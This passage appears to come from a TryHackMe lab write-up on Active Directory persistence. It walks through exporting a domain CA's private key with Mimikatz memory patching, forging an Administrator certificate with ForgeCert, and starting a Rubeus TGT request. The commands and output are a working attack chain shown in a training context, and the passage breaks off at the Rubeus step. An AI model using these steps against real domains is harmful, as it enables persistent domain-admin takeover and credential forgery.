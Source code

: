 We can also note that some of these certificates were set not to allow us to export the key. 
Without this private key, we would not be able to generate new certificates. 

Luckily, Mimikatz allows us to patch memory to make these keys exportable:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched

mimikatz # crypto::certificates /systemstore:local_machine /export
```

The exported certificates will be stored in both PFX and DER format to disk:
```
za\administrator@THMDC C:\Users\Administrator\exzh>dir 
 Volume in drive C is Windows 
 Volume Serial Number is 1634-22A9

 Directory of C:\Users\Administrator\exzh

04/28/2023  01:58 PM    <DIR>          .
04/28/2023  01:58 PM    <DIR>          ..
04/28/2023  01:58 PM             1,423 local_machine_My_0_.der
04/28/2023  01:58 PM             3,299 local_machine_My_0_.pfx
04/28/2023  01:58 PM               939 local_machine_My_1_za-THMDC-CA.der
04/28/2023  01:58 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
04/28/2023  01:58 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
04/28/2023  01:58 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
04/28/2023  01:58 PM             1,465 local_machine_My_3_.der
04/28/2023  01:58 PM             3,321 local_machine_My_3_.pfx
               8 File(s)         18,046 bytes
               2 Dir(s)  51,563,311,104 bytes free

```

The za-THMDC-CA.pfx certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`

### Generating our own certificates
```
 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

Now lets use Rubeus to request a TGT:
```
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:
```
